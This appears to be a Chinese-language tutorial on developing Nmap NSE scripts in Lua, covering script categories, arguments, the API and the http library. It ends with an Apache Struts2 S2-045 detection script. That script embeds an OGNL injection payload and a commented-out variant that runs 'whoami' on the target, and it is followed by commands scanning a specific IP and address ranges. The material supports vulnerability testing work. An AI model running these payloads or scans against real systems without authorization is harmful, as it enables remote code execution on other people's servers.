



[TOC]
# Nmap - 脚本开发(二)

Referer:
- nmap官网api: https://nmap.org/nsedoc/
- https://t0data.gitbooks.io/mysecuritybook/content/nse.html
- 漏洞银行-顷旋丨Nmap脚本开发及主机扫描分析 https://v.qq.com/x/page/o0538yluhgx.html?start=285
- 如何利用NSE检测CVE漏洞 https://www.freebuf.com/sectool/161664.html

## Nmap脚本简介

### 分类
当我们在机器上把Nmap安装完毕后，在安装目录下的script文件夹里会保存大量的NSE脚本。如果你使用的是Nmap 7.60 版本的话，目录下会有580个脚本，这些都是Nmap特有的，是基于lua语言编写的。

这些NSE脚本根据用途的不同，大致分类如下：

```
auth: 负责处理鉴权证书（绕开鉴权）的脚本

broadcast: 在局域网内探查更多服务开启状况，如dhcp/dns/sqlserver等服务

brute: 提供暴力破解方式，针对常见的应用如http/snmp等

default: 使用-sC或-A选项扫描时候默认的脚本，提供基本脚本扫描能力

discovery: 对网络进行更多的信息，如SMB枚举、SNMP查询等

dos: 用于进行拒绝服务攻击

exploit: 利用已知的漏洞入侵系统

external: 利用第三方的数据库或资源，例如进行whois解析

fuzzer: 模糊测试的脚本，发送异常的包到目标机，探测出潜在漏洞 intrusive: 入侵性的脚本，此类脚本可能引发对方的IDS/IPS的记录或屏蔽

malware: 探测目标机是否感染了病毒、开启了后门等信息

safe: 此类与intrusive相反，属于安全性脚本

version: 负责增强服务与版本扫描（Version Detection）功能的脚本

vuln: 负责检查目标机是否有常见的漏洞（Vulnerability），如是否有MS08_067
```


### 基本使用
```
//指定某个脚本进行扫描
$ nmap --script http-title scanme.nmap.org

//指定脚本分类auth
$nmap --script auth scanme.nmap.org

//指定脚本文件路径
nmap --script /usr/local/nmap/script/http-title.nse scanme.nmap.org

//指定脚本文件夹, 例如，执行script目录下custom文件夹中的所有的脚本
nmap --script /usr/local/nmap/script/custom/ scanme.nmap.org

// 使用表达式,执行script目录中以http开头的脚本
nmap --script “http-*” scanme.nmap.org
```

### Nmap 脚本参数使用
Nmap在执行脚本时，通常需要指定一些其他的参数，比如说，保持http会话的cookie，躲过服务器UA检测的UserAgent设置

使用方式: 

1. 直接使用script-args参数指定值

demo: 指定客户端请求的UA类型为Mozilla

    nmap --script http-title.nse --script-args http.useragent="Mozilla/4.0" scanme.nmap.org

2. 加载脚本参数文件 这种使用方式是，提前将需要使用的脚本参数值保存在文件中，当在Nmap命令行中调用时直接指向文件所在即可。 此方法适用于多参数的设置。

例如，指定从agrs.txt中读取

    nmap --script http-title.nse --script-args-file args.txt scanme.nmap.org

而args.txt中的内容如下：

    http.useragent=Mozilla/4.0 http.max-connections=50 uri=/app

### debug的使用
在使用NSE脚本过程中，我们经常需要使用debug来跟踪和分析脚本执行的情况。这时候就需要用到NSE的debug功能。如果你想分析数据的发送和接受，将会使用到--script-trace参数

    nmap --script http-title.nse --script-trace scanme.nmap.org


## NSE api
Referer: https://nmap.org/book/nse-api.html

nse脚本遵循nmap api规范，其包含三部分内容，其中–开头的行为注释内容。
```
-- The Head Section --
-- The Rule Section --
portrule = function(host, port)
return port.protocol == "tcp" and port.number == 80 and port.state == "open"
end
-- The Action Section --
action = function(host, port)
return "Hello world"
end
```

The Head Section
: 该部分包含一些元数据，主要描述脚本的功能，作者，影响力，类别及其他。

The Rule Section
: 该部分定义脚本的一些规则，至少包含下面列表中的一个函数：
```
变量名称	函数执行顺序
prerule()	最先执行
hostrule(host)	第二步执行
portrule(host,port)	第二步执行
postrule()	最后一步执行
```
The Action Section
: 该部分定义脚本逻辑，即满足条件后执行的内容，比如上面例子为输出helloworld。

Nmap扩展主要由以下几个变量构成。编码方式：变量绑定函数


顺序为：Prerule -> Hostrule or Portrule -> Action -> Postrule

> 当 Hostrule 或者 Portrule 的绑定函数返回true的时候，都会执行一次Action的绑定函数。

demo: 简单输出

```


-- 简单的输出测试脚本

postrule = function()
	print("postrule")
end

prerule = function()
	print("prerule")
end

hostrule = function(host)
	print("hostrule:" .. host.ip)
	return true
end

portrule = function(host,port)
	if(port.state == "open") then
		print("portrule : this " ..host.ip .. " open " .. port.number)
	end
	return true
end

action = function(host,port)
	print("action:" .. host.ip)
end
```



### 调用内置库
https://nmap.org/book/nse-api.html

NSE脚本可以调用内置库，比如http库、shortport库、nmap库等。
导入方式：

```
local http = require "http"
local nmap = require "nmap"
local shortport = require "shortport"
```

### http库

demo: 确认目标主机是否支持HEAD，如果支持则输出响应头

```
local stdnse = require "stdnse"
local http = require "http"
prerule=function()
end
hostrule=function(host)
	return false
end
portrule=function(host,port)
	if(port.number == 80) then
		return true
	end
	return false
end
action = function(host,port)
	local result
	local status = false
	status,result = http.can_use_head(host,port,404,"/")
	if(status) then
		http_info = stdnse.output_table()
		http_info.header = result.header
		http_info.version = result.version
		return http_info
	end
end
postrule=function()
end
```




demo: s2_045漏洞验证

环境搭建:
```
$ docker pull medicean/vulapps:s_struts2_s2-045

$ docker run -d -p 80:8080 medicean/vulapps:s_struts2_s2-045

wget https://github.com/Z-0ne/ScanS2-045-Nmap/blob/master/struts2-scan.nse
```

代码:s2_045.nse
```
description = [[
Struts2 S2-045 Checks
]]

---
-- nmap -script struts2-scan -sS -p 80,8080,81,82,83,84,85,86,87,88,8888,8088 -n -d ip -oX outscan.xml
--
-- BeaconLab http://plcscan.org/blog/
---

categories = {"discovery", "safe"}
author = "Z-0ne"
license = "Same as Nmap--See http://nmap.org/book/man-legal.html"

local http = require "http"
local target = require "target"
local shortport = require "shortport"
local stdnse = require "stdnse"
local table = require "table"

--use script to scan any open TCP port
portrule = function(host, port)
  return port.state == "open"
end


action = function(host, port)
  local output = stdnse.output_table()
  local options
  local payload = "%{(#nike='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#context.setMemberAccess(#dm)))).(#o=@org.apache.struts2.ServletActionContext@getResponse().getWriter()).(#o.println('Struts2S2045Checks!!!')).(#o.close())}"
  --local payload_cmd = "%{(#nike='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='whoami').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}"
  local useragent = "Mozilla/5.0"
  options = {header = {}, timeout = 15000}
  options["header"]["Content-type"] = payload
  options["header"]["User-Agent"] = useragent
  local response = http.get(host, port, "/", options)
  if response.status == 200 then
    if string.find(response.body, "Struts2S2045Checks") ~= nil then
	  -- exclude index "php default phpinfo() page"
	  if string.find(response.body, "phpinfo") == nil then
		--response: 0000   53 74 72 75 74 73 32 53 32 30 34 35 43 68 65 63  Struts2S2045Chec
                --          0010   6b 73 21 21 21                                   ks!!!
	    if #response.body == 21 then
              output["status"] = "S2-045-AChecks vuln21"
	      return output
		--response: 0000   53 74 72 75 74 73 32 53 32 30 34 35 43 68 65 63  Struts2S2045Chec
                --          0010   6b 73 21 21 21 0a                                ks!!!.
            elseif #response.body == 22 then
              output["status"] = "S2-045-AChecks vuln22"
	      return output
		--response: 0000   53 74 72 75 74 73 32 53 32 30 34 35 43 68 65 63  Struts2S2045Chec
                --          0010   6b 73 21 21 21 0d 0a                             ks!!!..
            elseif #response.body == 23 then
              output["status"] = "S2-045-AChecks vuln23"
	      return output
            elseif  #response.body < 50 then 
              output["status"] = "S2-045-AChecks"
              output["resplength"] = #response.body
              return output
            else
              output["status"] = "S2-045-AChecks lengtherror"
              output["resplength"] = #response.body
              return output
            end
	  end
	end
  end
  if response.status == 302 or response.status == 301 then
    if response.location then
      local parseurl = http.parse_url(response.location[#response.location])
    --fix location http://127.0.0.1/login.action to http://host:port/uri
      local response = http.get(parseurl.host,port,parseurl.path,options)
      if response.status == 200 then
        if string.find(response.body, "Struts2S2045Checks") ~= nil then
          if string.find(response.body, "phpinfo") == nil then
            if #response.body == 21 then
              output["status"] = "S2-045-BChecks vuln21"
              return output
            elseif #response.body == 22 then
              output["status"] = "S2-045-BChecks vuln22"
              return output
            elseif #response.body == 23 then
              output["status"] = "S2-045-BChecks vuln23"
              return output
            elseif  #response.body < 50 then
              output["status"] = "S2-045-BChecks"
              output["resplength"] = #response.body
              return output
            else
              output["status"] = "S2-045-BChecks lengtherror"
              output["resplength"] = #response.body
              return output
            end			  
          end
        end
      end
    end
  end
  -- Debug 
  -- if response.status == 404 and response.body then
    -- output["status"] = "S2-045-CChecks"
	-- output["res"] = response.body
	-- return output
  -- end
end
```

扫描； 

    nmap --script=s2_045 59.65.78.183 -p8080-9000



批量扫描某个网段存在s2-045漏洞的情况。


    nmap --script=s2_045 -p80-90,8000-9000 -iL ip.txt -T4|tee nmap.txt


## 一些常用的scripts 脚本

```
dns-zone-transfer.nse  dns域传送漏洞

// http-git http .git 泄露
nmap --script=http-git -p80-90,8000-9000 -T5 -iL /tmp/ip.txt |tee /tmp/nmap2.log

s2_045.nse
```


## 收集的一些nmap nse库
https://github.com/cldrn/nmap-nse-scripts

https://github.com/Rvn0xsy/nse_vuln

https://github.com/scipag/vulscan